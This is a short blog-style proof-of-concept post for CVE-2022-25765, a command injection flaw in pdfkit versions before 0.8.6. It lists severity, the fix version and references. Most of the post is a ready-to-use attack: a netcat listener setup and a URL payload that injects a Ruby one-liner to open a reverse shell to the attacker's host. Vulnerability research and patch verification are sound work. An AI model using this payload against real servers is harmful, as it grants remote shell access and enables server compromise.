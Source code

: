 ```yaml
---
title: CVE-2022-25765 pdfkit
author: D_captain
date: 2022-08-08 11:33:00 +0300
categories: [CVE]
tags: [shell, rce, pdfkit, poc]
math: true
mermaid: true
image:
  path: /assets/img/posts/pdfkit.jpeg
  alt: source (https://www.bio-logical-it.com/).
---
```


# pdfkit-Exploit-Reverse-Shell

All < 0.8.6 versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

---


## Severity

> Critical 9.8/10
{: .prompt-danger }

 

## Note
This issue was originally addressed in 0.8.7, but the fix was not complete. A complete fix was released in 0.8.7.2.


## Pre-requisites setup

HTTP Server
: - python3 -m http.server 9090

Netcat Listener
: - nc -lvnp 4444


### Reverse Ruby shell

```bash
http://LOCAL-IP:9090/?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("LOCAL-IP",4444))'`
```


##  How to fix?

Upgrade pdfkit to version `0.8.7.2` or higher.



## Reference

[**https://nvd.nist.gov/vuln/detail/CVE-2022-25765**](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)

[**https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795**](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

